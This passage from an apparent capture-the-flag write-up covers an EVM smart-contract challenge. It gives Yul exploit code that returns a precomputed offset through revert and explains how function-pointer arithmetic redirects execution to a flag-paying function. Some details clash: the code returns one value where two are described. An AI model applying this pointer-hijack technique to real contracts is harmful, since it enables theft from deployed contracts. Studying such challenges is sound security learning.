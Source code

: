 ### Minimal Exploit Contract

The exploit contract must:
- Be exactly ≤ 12 bytes (severe bytecode constraint)
- Return data via `revert()` with two values:
  1. The offset v = 0xffffff35
  2. The block number for verification

**Strategy:** Use `balance(gasprice())` as a trick to store precomputed value without exceeding bytecode limit.

```solidity
fallback() external payable {
    assembly {
        // balance(gasprice()) contains precomputed 0xffffff35
        let v := balance(gasprice())
        
        // Store v at offset 0x00
        mstore(0x00, v)
        
        // Store block number at offset 0x20
        mstore(0x20, number())
        
        // Revert with 32 bytes of data
        revert(0x00, 0x20)
    }
}
```

## Key Concepts

### Function Pointer Arithmetic

The challenge exploits memory-based function pointers:

```solidity
struct func {
    function() ptr;
}
```

By loading the pointer, adding an offset, and storing it back, we can redirect execution to a different code location:

```
Original address:  0x22a (renounce)
Add offset:       + 0xffffff35 (-0xcb in signed)
New address:      = 0x1f5 (payforflag emit)
```

### Delegatecall Revert Pattern

Delegatecall preserves the caller's storage context. When the target reverts, the caller can extract the revert data using Yul assembly:
